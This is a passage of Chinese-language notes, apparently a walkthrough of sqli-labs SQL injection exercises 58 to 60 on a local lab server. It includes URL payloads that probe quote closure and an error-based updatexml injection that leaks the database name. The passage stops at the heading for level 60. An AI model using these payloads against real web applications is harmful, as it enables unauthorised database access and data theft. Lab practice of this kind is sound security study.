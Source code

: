 * 看下有没有回显

![image](https://user-images.githubusercontent.com/76896357/115131863-dc9a3c00-a02d-11eb-8b7c-7a05618386ea.png)


找到了，就是双引号，而且还有回显。。。

查库

![image](https://user-images.githubusercontent.com/76896357/115131883-0bb0ad80-a02e-11eb-8b87-559ce266fec8.png)


就直接过了


## 58. 不能用union select

* 猜测闭合方式

```
http://192.168.220.12/sqli/Less-58/index.php?id=1%27%20%20--+
```

![image](https://user-images.githubusercontent.com/76896357/115132074-862dfd00-a02f-11eb-9b84-79e4eda7380d.png)

''的闭合方式

* 查看有没有回显

![image](https://user-images.githubusercontent.com/76896357/115131924-72ce6200-a02e-11eb-891d-21dcf4f58d27.png)

没有回显

* 查看会不会报错

```
http://192.168.220.12/sqli/Less-58/index.php?id=0%27%20and%20updatexml(1,concat(%27~%27,(select%20database()),%27~%27),1)%20--+
```

![image](https://user-images.githubusercontent.com/76896357/115132067-77dfe100-a02f-11eb-96d2-fb62f7981462.png)

利用报错逐个查询吧


## 59. 数字型报错挑战

* 猜测闭合方式

![image](https://user-images.githubusercontent.com/76896357/115132165-5d5a3780-a030-11eb-8300-68fc47aae6de.png)

很显然没有

![image](https://user-images.githubusercontent.com/76896357/115132150-3ac81e80-a030-11eb-9bd6-fcb09d96274e.png)

之后就。。。

## 60. ")闭合方式的挑战
